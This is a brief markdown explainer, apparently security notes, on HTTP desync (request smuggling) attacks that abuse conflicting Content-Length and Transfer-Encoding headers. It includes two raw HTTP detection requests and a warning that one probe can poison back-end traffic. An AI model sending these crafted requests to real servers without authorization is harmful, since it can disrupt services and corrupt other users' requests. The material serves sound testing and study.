 # HTTP Desync attack

HTTP Desync attack is HTTP request smuggling, but it abuses `Content-Length` and `Transfer-Encoding: chunked` to desynchronize front- and backend requests.

According to spec:

    If a message is received with both a Transfer-Encoding header field and a Content-Length header field, the latter MUST be ignored.

This means that we can use `Content-Length` and `Transfer-Encoding: chunked` at the same time - and if we can hide the `Transfer-Encoding` header, we desync the requests.



Test example, where frontend uses `Content-Length` and backend uses `Transfer-Encoding`. Frontend will forward all but 'Q', and backend will timeout.

    POST /about HTTP/1.1
    Host: example.com
    Transfer-Encoding: chunked
    Content-Length: 4
    
    1
    Z
    Q

If servers are in sync (both use either Content-Length or Transfer-Encoding), the request will be rejected by the frontend or it will be harmlessly processed by both systems. If the desync occurs the other way around, the front-end will reject the message without ever forwarding it to the back-end.



Test example to detect frontend using `Transfer-Encoding` and backend using `Content-Length`:

    POST /about HTTP/1.1
    Host: example.com
    Transfer-Encoding: chunked
    Content-Length: 6
    
    0
    
    X

Frontend will forward blue text, and backend will timeout waiting for 'X' to arrive. If desync happens other way around, it will poison the back-end with an X - potentially harming legitimate users. (Always use prior detection example first)

Source:

- [portswigger blog](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)

- [watchfire paper](https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf) [#](files/HTTP-Request-Smuggling.pdf)


